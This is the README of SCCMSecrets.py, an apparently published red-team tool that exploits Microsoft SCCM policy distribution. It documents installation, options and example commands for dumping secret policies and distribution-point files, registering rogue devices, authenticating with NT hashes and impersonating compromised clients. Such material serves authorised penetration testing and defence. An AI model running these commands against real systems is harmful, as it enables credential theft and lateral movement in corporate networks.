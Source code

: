 # SCCMSecrets

SCCMSecrets.py is an SCCM policies exploitation tool. It goes beyond NAA credentials extraction, and aims to provide a comprehensive approach regarding SCCM policies exploitation. The tool can be executed from various levels of privileges, and will attempt to uncover potential misconfigurations related to policies distribution. It will dump the contents of all secret policies encountered as well as collection variables, in addition to package scripts hosted on the distribution points. Finally, it can be used throughout the intrusion process by configuring it to impersonate legitimate SCCM clients, in order to pivot across device collections.

For more details regarding the tool and its usage, see the associated article at:
https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial

# Installation

You can install SCCMSecrets.py by cloning the repository and installing the dependencies.
```
$ git clone https://github.com/synacktiv/SCCMSecrets
$ cd SCCMSecrets
$ python3 -m venv .venv && source .venv/bin/activate
$ python3 -m pip install -r requirements.txt
```

# Usage

```
$ python3 SCCMSecrets.py -h
                                                                                                                                                                                                                   
 Usage: SCCMSecrets.py [OPTIONS]                                                                                                                                                                                   
                                                                                                                                                                                                                   
╭─ Options ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --distribution-point  -dp      TEXT  An SCCM distribution point [default: None]                                                                                                                                 │
│ --management-point    -mp      TEXT  The client's SCCM management point. Only necessary if the management point is not on the same machine as the distribution point [default: None]                            │
│ --username            -u       TEXT  A username for a domain account (can be a user account, or - preferably - a machine acount) [default: None]                                                                │
│ --password            -p       TEXT  The password for the domain account [default: None]                                                                                                                        │
│ --hash                -H       TEXT  The NT hash for the domain account (e.g. A4F49C406510BDCAB6824EE7C30FD852) [default: None]                                                                                 │
│ --verbose             -v             Enable verbose output                                                                                                                                                      │
│ --help                -h             Show this message and exit.                                                                                                                                                │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Policies dump options ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --skip-policies-dump   -sp               Do not perform secret policies dump                                                                                                                                    │
│ --client-name          -cn      TEXT     The name of the client that will be created in SCCM. An FQDN is expected (e.g. fake.corp.com) [default: None]                                                          │
│ --registration-sleep   -rs      INTEGER  The amount of time, in seconds, that should be waited after registrating a new device. A few minutes is recommended so that the new device can be added to device      │
│                                          collections (3 minutes by default, may need to be increased)                                                                                                           │
│                                          [default: 180]                                                                                                                                                         │
│ --use-existing-device  -d       TEXT     This option can be used to re-run SCCMSecrets.py using a previously registered device ; or to impersonate a legitimate SCCM client. In both cases, it expects the path │
│                                          of a folder containing a guid.txt file (the SCCM device GUID) and the key.pem file (the client's private key). Note that a client-name value must also be provided to  │
│                                          SCCMSecrets (but does not have to match the one of the existing device)                                                                                                │
│                                          [default: None]                                                                                                                                                        │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ DP file dump options ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --skip-file-dump    -sf                            Do not perform Distribution Point file dump                                                                                                                  │
│ --index-method      -m       [datalib|bruteforce]  The method used to index files from the distribution point. Datalib should be preferred over bruteforce (the latter being less efficient and less            │
│                                                    exhaustive)                                                                                                                                                  │
│                                                    [default: datalib]                                                                                                                                           │
│ --index-file        -if      TEXT                  Use an existing indexing file previously produced by SCCMSecrets, which avoids re-indexing files from the Distribution Point. This option expects the        │
│                                                    'packages/index.json' file from an SCCMSecrets loot directory                                                                                                │
│                                                    [default: None]                                                                                                                                              │
│ --extensions        -e       TEXT                  Comma-separated list of extension that will determine which files will be downloaded when retrieving packages scripts. Provide an empty string to not        │
│                                                    download anything, and only index files                                                                                                                      │
│                                                    [default: .ps1, .bat, .xml, .txt, .pfx]                                                                                                                      │
│ --files             -f       TEXT                  A file containing a list of URLs (one per line) that should be downloaded from the Distribution Point. This is useful if you already indexed files and do    │
│                                                    not want to download by extension, but rather specific known files                                                                                           │
│                                                    [default: None]                                                                                                                                              │
│ --bruteforce-range  -bf      INTEGER               The number of package ID to bruteforce when indexing files through the bruteforce method. Between 0 (00000) and 1048575 (FFFFF) [default: 4095]              │
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# Examples

Below are some example commands.

Running SCCMSecrets.py without providing credentials (attempt to exploit automatic device approval for secret policies retrieval, attempt to exploit distribution point anonymous access for Distribution Point file dumping).
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test.sccm.lab -v
```
&nbsp;

Running SCCMSecrets.py with domain user credentials (attempt to exploit automatic device approval for secret policies retrieval, uses provided credentials or anonymous access for Distribution Point file dumping). Specify file extensions to whitelist for Distribution Point file dumping.
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test2.sccm.lab --extensions '.txt,.xml,.ps1,.pfx,.ini,.conf' --username 'franck' --password 'rockthee' -v
```
&nbsp;

Running SCCMSecrets.py with domain machine account credentials (register a new approved device allowing to dump secret policies, uses provided credentials or anonymous access for external resources dumping). Specify a longer time to wait after registration to ensure the enrolled device is successfully added to collections before requesting policies. Use the machine account hash for authentication
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test3.sccm.lab --registration-sleep 300 --username 'azule$' --hash '2B576ACBE6BCFDA7294D6BD18041B8FE' -v
```
&nbsp;

Running SCCMSecrets.py with domain user credentials. Skip secret policies enumeration. Specify a file with a list of URLs to download from the Distribution Point
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --skip-policies-dump --files loot/files.txt --username 'alice' --hash '8D97808FB46E01433322BD704EC9E160'
```
&nbsp;

Running SCCMSecrets.py with domain user credentials. Skip secret policies enumeration. Specify an existing index file to avoid re-indexing from Distribution Point. Download all **ps1** files.
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --skip-policies-dump --index-file loot/2024-09-28_00-42-23/packages/index.json --extensions '.ps1' --username 'alice' --password 'whiteRabbit' -v
```
&nbsp;

Running SCCMSecrets.py to impersonate a legitimate SCCM client that was compromised. The `CLIENT_DEVICE` folder contains a guid.txt file (GUID of the compromised client) and a key.pem file (the private key of the compromised client). Skip Distribution Point file dump.
```
$ python3 SCCMSecrets.py --distribution-point 'mecm.sccm.lab/' --client-name test4.sccm.lab --skip-file-dump --use-existing-device CLIENT_DEVICE/ -v
```
